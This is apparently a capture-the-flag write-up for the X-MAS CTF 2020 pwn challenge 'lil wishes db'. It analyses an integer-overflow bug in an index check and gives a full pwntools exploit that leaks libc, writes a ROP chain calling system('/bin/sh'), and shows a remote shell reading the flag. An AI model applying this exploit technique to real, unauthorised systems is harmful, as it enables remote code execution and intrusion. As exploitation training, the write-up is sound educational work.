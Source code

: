 # X-MAS CTF 2020

## lil wishes db

> ??
>
> I don't want a lot for Christmas!  
> RCE is all I need  
> I don't care about protections  
> Underneath the RSP  
>
> Target: `nc challs.xmas.htsp.ro 2002`
> 
> Author: Th3R4nd0m
> 
> [naughty.zip](naughty.zip)

Tags: _pwn_ _x86-64_ _rop_ _remote-shell_ _integer-overflow_ _write-what-where_


## Summary

Leverage integer overflow to write out ROP chain and get a shell.


## Analysis

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

All mitigations in place.  Nice!


### Decompile with Ghidra

Just the vulnerable sections of code:

Relevant variables:

```c
  int local_6c;
  int local_68;
  undefined local_58 [72];
```

Swap code:

```c  
        if (local_64 == 1) {
          puts("Index 1:");
          scanf("%d",&local_6c);
          puts("Index 2:");
          scanf("%d",&local_68);
          if ((local_6c < 8) && (local_68 < 8)) {
            swap_ids((ushort)local_6c,(ushort)local_68,(long)local_58);
          }
          else {
            puts("Index should not be > 8");
          }
```

This _swap_ section of code will swap any two 8-byte values in array `local_58` (think of this as `ulong local_58[9]`) with index values 0-7.

There's a perfect storm of minor bugs that result in a major vulnerability--RCE.

`scanf("%d",&local_6c)` and `scanf("%d",&local_68)` permit negative values, this allows the `(local_6c < 8) && (local_68 < 8)` check to pass.  Had `local_6c` and `local_68` been `uint`, this vulnerability would have been mitigated.

The `ushort` casts in the statement `swap_ids((ushort)local_6c,(ushort)local_68,(long)local_58)` converts those negative number to positive creating an integer overflow. This overflow permits swaps with index values 0-65535 (2<sup>16</sup> - 1) enabling arbitrary read and write down stack.

The return address is `0x58` bytes from `local_58`, an index of `11` (`0x58 / 8`) will easily allow us to write out a ROP chain.  


## Exploit

```python
#!/usr/bin/env python3

from pwn import *

def swap(p,n):
    p.sendline('1')
    p.sendlineafter('Index 1:\n','0')
    p.sendlineafter('Index 2:\n',str(n-65536))
    p.recvuntil('Option: \n')

def leak(p,n):
    swap(p,n)
    p.sendline('2')
    p.recvuntil('ID[0] =')
    _ = p.recvline().strip()
    swap(p,n)
    return int(_)

def insert(p,n):
    p.sendline('3')
    p.sendlineafter('Index: \n','0')
    p.sendlineafter('Value: \n',str(n))
    p.recvuntil('Option: \n')

def www(p,what,where):
    insert(p,what)
    swap(p,where)
```

These functions make the exploit development a bit easier:

`swap` just frontends the swap code, however we can just pass in `n` and the `n-65536` will create the necessary negative number to enable an index of range from zero to 65535 (see analysis section).

`leak` will call `swap` to _swap_ a value into the `0`th element and use the programs `Print database` code to leak that value, then call `swap` again to, well, _swap_ it back.

`insert` will only set indexes `0-7` since `local_60` is `uint`, IOW we cannot simply call `insert` to write out our ROP chain.

Lastly, `www` is our _write-what-where_ (limited to down stack), `www` simply writes `what` into the `0`th element using the built-in `Insert ID` code, then calls `swap` once to write it to `where`.

```python
binary = context.binary = ELF('./chall')

if args.REMOTE:
    p = remote('challs.xmas.htsp.ro', 2002)
    libc = ELF('./libc.so.6')
else:
    p = process(binary.path)
    libc = binary.libc

p.recvuntil('Option: \n')

__libc_start_main = leak(p,0x58 // 8) - 231
libc.address = __libc_start_main - libc.sym.__libc_start_main
log.info('libc.address: ' + hex(libc.address))
```

Before we can write out a ROP chain, we need to know the location of `libc`.  Fortunately the game masters provided the challenge server libc binary.  From this with can use `grep` to find that this is from Ubuntu 18.04 and then dev/test in an Ubuntu 18 container (there are other ways, e.g. `p = process([ld.path, binary.path], env={'LD_LIBRARY_PATH': libpath})`, but I had an Ubuntu 18.04 container handy).

Locally, by setting a break point at `ret`:

```
gef➤  b *0x555555554000 + 0xb4a
Breakpoint 1 at 0x555555554b4a
gef➤  run
Starting program: /pwd/datajerk/xmasctf2020/lil_wishes_db/chall
Wishes database

Choose:
1.Swap IDs
2.Print database
3.Insert ID
4.Exit

Option:
4
```

we can see that the return address is:

```
0x00007fffffffe398│+0x0000: 0x00007ffff7a05b97  →  <__libc_start_main+231> mov edi, eax	 ← $rsp
```

Using `leak` with an index of `0x58 // 8` (11) we can get the address of `__libc_start_main+231` and compute the base of libc.

```python
rop = ROP([libc])
pop_rdi = rop.find_gadget(['pop rdi','ret'])[0]

payload = [pop_rdi+1,pop_rdi,libc.search(b'/bin/sh').__next__(),libc.sym.system]

where = 0x58 // 8
for what in payload:
    www(p,what,where)
    where += 1

p.sendline('4')
p.interactive()
```

At this point it's pretty much game over.  All that is required is a `rop rdi` gadget from libc, the location of a `/bin/sh` string and the `system` call, both from libc, and then we just write that down stack starting at `0x58 // 8` (11).

To execute our attack, just send `4` to exit the menu.


Output:

```bash
# ./exploit.py REMOTE=1
[*] '/pwd/datajerk/xmasctf2020/lil_wishes_db/chall'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to challs.xmas.htsp.ro on port 2002: Done
[*] '/pwd/datajerk/xmasctf2020/lil_wishes_db/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] libc.address: 0x7f813bafc000
[*] Loading gadgets for '/pwd/datajerk/xmasctf2020/lil_wishes_db/libc.so.6'
[*] Switching to interactive mode


Merry Christmas!
$ id
uid=1000(ctf) gid=1000(ctf) groups=1000(ctf)
$ cat /home/ctf/flag.txt
X-MAS{oh_nooo_y0u_ru1ned_the_xmas}
```

